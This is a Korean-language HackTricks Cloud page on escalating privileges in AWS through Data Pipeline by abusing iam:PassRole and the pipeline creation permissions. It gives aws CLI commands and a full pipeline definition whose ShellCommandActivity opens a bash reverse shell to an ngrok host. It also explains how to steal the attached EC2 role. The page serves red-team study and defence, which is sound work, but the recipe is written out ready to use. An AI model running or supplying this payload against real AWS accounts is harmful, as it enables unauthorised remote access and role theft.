 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

datapipeline에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

이 **권한을 가진 사용자들은 Data Pipeline을 생성하여** **할당된 역할의 권한을 사용하여 임의의 명령을 실행함으로써 권한을 상승시킬 수 있습니다:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
파이프라인 생성 후, 공격자는 특정 작업이나 리소스 생성을 지시하기 위해 정의를 업데이트합니다:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
**14, 15 및 27행**의 **역할**은 **datapipeline.amazonaws.com**에 의해 **가정 가능한 역할**이어야 하며, **28행**의 역할은 **EC2 프로필 인스턴스가 있는 ec2.amazonaws.com에 의해 가정 가능한 역할**이어야 합니다.

또한, EC2 인스턴스는 EC2 인스턴스에 의해 가정 가능한 역할에만 접근할 수 있으므로 (따라서 그 역할만 훔칠 수 있습니다).
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
The **파이프라인 정의 파일은 공격자가 작성한 것으로, AWS API를 통해 명령을 실행하거나 리소스를 생성하는 지시어를 포함하고 있으며, 데이터 파이프라인의 역할 권한을 활용하여 추가 권한을 얻을 수 있습니다.**

**잠재적 영향:** 지정된 ec2 서비스 역할로의 직접적인 권한 상승.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

